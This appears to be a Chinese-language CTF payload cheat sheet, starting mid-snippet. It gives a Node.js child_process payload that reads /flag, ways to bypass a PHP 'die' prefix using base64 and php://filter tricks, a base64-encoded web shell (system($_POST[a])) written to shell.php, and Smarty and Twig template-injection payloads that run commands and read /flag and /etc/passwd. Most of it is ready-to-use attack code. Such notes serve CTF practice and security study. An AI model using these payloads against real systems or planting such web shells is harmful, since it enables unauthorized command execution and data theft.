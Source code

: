 ```js
  return process.mainModule.require("child_process").execSync("cat /flag").toString()
})()
```

## 死亡绕过

```php
public function hasaki(){
        $d = '<?php die("nononon");?>';
        $a = $d.$this->text;
         @file_put_contents($this->file,$a);
}
```

像这样的

### base64编码后解码绕过

base64在解码的时候，是4个字节转化为3个字节

eg:`file_put_contents($filename , "<?php exit();".$content);`
在解码的过程中，字符`< ? ; >` 空格等一共有7个字符不符合`base64`编码的字符范围将被忽略，所以最终被解码的字符仅有`phpexit`和我们传入的其他字符

### filter

#### string.strip_tags配合base64

`string.strip_tags`把整个标签都给去掉了可以直接写入内容了

`php://filter/write=string.strip_tags|convert.base64-decode/resource=shell.php";`
`$content = "PD9waHAgc3lzdGVtKCRfUE9TVFthXSk7";// <?php system($_POST[a]);`

#### rot13

`<?php phpinfo();>`经过rot13编码后这样：`<?cuc cucvasb();?>`

[放一个链接](https://www.freebuf.com/articles/web/266565.html)

`file_put_contents`用过滤器,当你写入数据时，数据首先会通过过滤器，然后再写入文件。

## php ssti

### smarty

```php
{$smarty.version}      #获取smarty的版本号
{php}phpinfo();{/php}  #执行相应的php代码
<script language="php">phpinfo();</script>   #{literal} 可以让一个模板区域的字符原样输出, 这经常用于保护页面上的Javascript或css样式表
这种写法只适用于php5环境
{if phpinfo()}{/if}     #每个{if}必须有一个配对的{/if}，也可以使用{else} 和 {elseif}
```

```php
{if phpinfo()}{/if}
{if system('ls')}{/if}
{if readfile('/flag')}{/if}
{if show_source('/flag')}{/if}
{if system('cat ../../../../flag')}{/if}
```

### twig

```py
#读文件
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("find / -name flag")}}
{{'/etc/passwd'|file_excerpt(1,30)}}
 
```
